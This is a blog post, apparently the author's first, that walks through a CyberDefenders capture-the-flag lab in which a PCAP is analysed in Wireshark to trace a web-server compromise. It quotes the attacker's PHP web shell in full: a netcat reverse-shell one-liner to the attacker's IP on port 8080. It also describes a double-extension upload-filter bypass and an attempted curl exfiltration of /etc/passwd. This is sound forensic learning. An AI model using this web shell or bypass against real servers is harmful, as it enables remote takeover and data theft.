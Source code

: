 ```yaml
---
layout: post
title: "Web Attack Lab"
author: "Nicholas Coleman"
date: 2025-03-05
tags: cyberdefenders
---
```

### a vulnerable web server
#### the task
*A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.*  
*Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.*

#### Pt. 1
Tasked with finding out what exactly happened that flagged the anomaly, my first goal was to find out where this unauthorized activity was coming from. Going through the packet capture, I noticed that the source IP address, belonging to the potential threat actor, was 117.11.88.124. Using an online IP geolocation service, I was able to quickly find out that this IP was located in Tianjin, China.

![the IP location](/security.github.io/images/ip_geolocation.png)

Although the IP address belonging to someone in China was already a bit suspicious, I needed more evidence of it being malicious. My next plan of action? To find out the User-Agent associated with this address. Since attackers often spoof User-Agent strings to mask the tools they use as legitimate browsers/applications, finding the User-Agent string was imperative.

Since I was already in Wireshark, that wouldn't be too difficult. All that needs to be done is to inspect a captured HTTP GET request. Easily done by following an HTTP stream.

`*Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0*`

It looks like the attacker was using a Linux-based Firefox browser, which could help him blend in with the rest of the traffic. This is valuable information, because it can help detect future attempts easily.

Next, I needed to see if the attacker exploited any vulnerabilities on the company web server. They most likely uploaded malicious code to allow themselves remote control over the server. This is otherwise known as the *web shell*. 

To do that, I needed to isolate all of the HTTP POST requests coming from the attacker's IP address. 

`ip.src == 117.11.88.124 and http.request.method == "POST"`

![The first attempt](/security.github.io/images/fail_attempt_1.png)

Here the attacker is trying to upload a malicious script, innocently named, "image.php". 

Attackers will often name malicious files with innocuous names, so as to avoid suspicion. But the very fact that a mysterious IP address is attempting to inject a PHP script into the company web server is enough by itself.

![Part 2](/security.github.io/images/fail_attempt_2.png)

See their IP address nestled in that PHP script? That alone is suspicious, and supported my conclusion that the attacker was trying to establish a reverse shell. Clearly, they are with the `system` function. It seems this first attempt was a failure however. The company web server's filters were able to stop the malicious file from executing. 

![sucess](/security.github.io/images/attack_success.png)

The second attempt was successful though, and the malicious PHP file was uploaded succesfully. It was able to bypass the server's filtering, most likely because the attacker tricked the filtering mechanism by adding a .jpg extension before the .php extension. This effectively made the server bug out, because it read the .jpg extension first, and probably assumed it was just an innocent photo. 

Well, it wasn't. The input validation mechanism of this server should definitely be updated! A vulnerability like this could end up being catastrophic. 

---

#### Pt. 2

My next step was to identify the web server's directory that is used for storing uploaded files. This is crucial to locating the malicious upload, and locating the vulnerable page. To do that, I would have to find the URI identifying that directory. So I entered the following:

`http.request.uri contains "image.jpg.php"`

From there I found out the web server uses the directory: /reviews/uploads/ for storing uploaded files. At this point, mentioning this vulnerability would be my priority in the real world, and as an entry-level analyst I would most likely escalate this issue. Escalation makes sense because the attacker is exploiting important server infrastructure. 

Finding the port used by the attacker was also simple. It is located within the content of the uploaded web shell file. 

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`

By examining the content of this file, I was able to notice this part: *nc 117.11.88.124 8080*. This reveals to me that the attacker was using netcat (nc) to attempt to establish a connection back to the attacker's system, while using port 8080. 

This information is vital when investigating a breach such as this one. Finding the port number helps in identifying the attacker's method as well as help in configuring the firewall/IDS systems to block 8080 connections in the future, if they are unneeded. 

My last step involves finding out the exact name of the file that the attacker attempted to exfiltrate. To do that, I entered a query in that would isolate data being sent from the victim web server using port 8080 (the same port the attacker was using). 

`(tcp.port == 8080) && (ip.src == 24.49.63.79)`

![curl evidence](/security.github.io/images/curl_evidence.png)

I was quickly able to find that the attacker used curl to attempt to exfiltrate etc/passwd. Obviously, that is a critical file, as it contains information on all system users. Nowadays, passwords are stored in shadow files, so the passwords are going to be safe. But in terms of value, etc/passwd is extremely useful for attackers. 

It can help them map the network out, and give them knowledge as to areas they can exploit. It is extremely valuable recon intel. 

---
#### Summary

With that, I was finished with the task at hand. This was a fun lab! Using Wireshark to figure out exactly what happened is almost like being a digital detective. It feels like a puzzle waiting to be solved. Although at times it can be frustrating, the process does feel intuitive after a while. 

Here are my findings in a concise 5W format. 

1. WHO: `117.11.88.124` (located in Tianjin, China)
2. WHERE: Vulnerable web server, using Port 8080
3. WHEN: Thu, 30 Nov 2023 18:44:19 GMT
4. WHAT: Malicious php script uploaded on web server
5. WHY: For the purpose of exfiltrating etc/passwd 

Thank you for reading through my first blog post! More will be coming shortly. I will try and upload most of the labs I work on, if they are in anyway interesting. 
